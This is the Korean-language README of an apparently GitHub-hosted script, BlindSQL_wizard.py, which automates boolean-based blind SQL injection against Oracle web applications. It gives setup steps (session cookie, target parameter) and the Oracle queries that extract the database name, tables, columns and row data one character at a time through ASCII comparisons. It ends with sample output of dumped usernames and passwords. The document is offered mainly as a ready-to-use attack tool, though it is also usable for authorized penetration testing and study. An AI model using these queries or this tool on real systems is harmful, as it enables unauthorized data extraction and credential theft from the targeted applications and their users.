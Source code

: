 ````markdown
# BlindSQL_wizard.py

**Boolean-based Blind SQL Injection 자동화 도구 (Oracle 지원)**  
Oracle 기반 웹 애플리케이션을 대상으로 DB 이름, 테이블, 컬럼, 내부 데이터를 추출하는 Blind SQLi 자동화 스크립트입니다.

---

## 요구사항

- Python 3.x
- `requests` 라이브러리  
  ```bash
  pip install requests
````

---

## 사용법

1. **JSESSIONID 설정**

   ```python
   headers = {
       "User-Agent": "Mozilla/5.0",
       "Content-Type": "application/x-www-form-urlencoded",
       "Cookie": "JSESSIONID=EXAMPLE"  # ← 실제 로그인 세션 쿠키로 변경
   }
   ```

2. **공격 파라미터 입력**

   * `paramName`: 공격 대상 파라미터 이름 (예: `"userId"`)
   * `constant_param`: 고정 로그인 파라미터 (예: `{"userPw": "dummy"}`)

3. **실행**

   ```bash
   python BlindSQL_wizard.py
   ```

---

## 기능 요약

*  Boolean-based Blind SQLi 자동화
*  Oracle DB 전용 쿼리 분기 처리
*  DB 이름, 테이블, 컬럼, 일부 데이터 추출
*  `ROWNUM` 기반 페이징 처리
*  JSON 형식으로 결과 저장

---

## 🔍 내부 동작

### 1. DB 이름 추출

```sql
SELECT SYS_CONTEXT('USERENV','DB_NAME') FROM dual
```

### 2. 테이블 목록 추출

```sql
SELECT table_name FROM (
  SELECT table_name, ROWNUM r FROM user_tables WHERE ROWNUM <= 100
) WHERE r = {i}
```

### 3. 컬럼 목록 추출

```sql
SELECT column_name FROM (
  SELECT column_name, ROWNUM r FROM user_tab_columns WHERE table_name = '{table}'
) WHERE r = {i}
```

### 4. 데이터 추출

```sql
SELECT TO_CHAR({col}) FROM (
  SELECT {col}, ROWNUM r FROM {table}
) WHERE r = {i}
```

모든 문자열 추출은 `ASCII` 값 비교로 한 글자씩 Boolean 조건문을 통해 얻어집니다.

---

## 결과 예시

결과는 `blind_extracted_result.json`에 자동 저장됩니다.

```json
{
  "database": "ORCL",
  "tables": {
    "USERS": {
      "columns": ["ID", "PASSWORD"],
      "data": [
        {
          "ID": "admin",
          "PASSWORD": "admin123"
        },
        ...
      ]
    }
  }
}
```


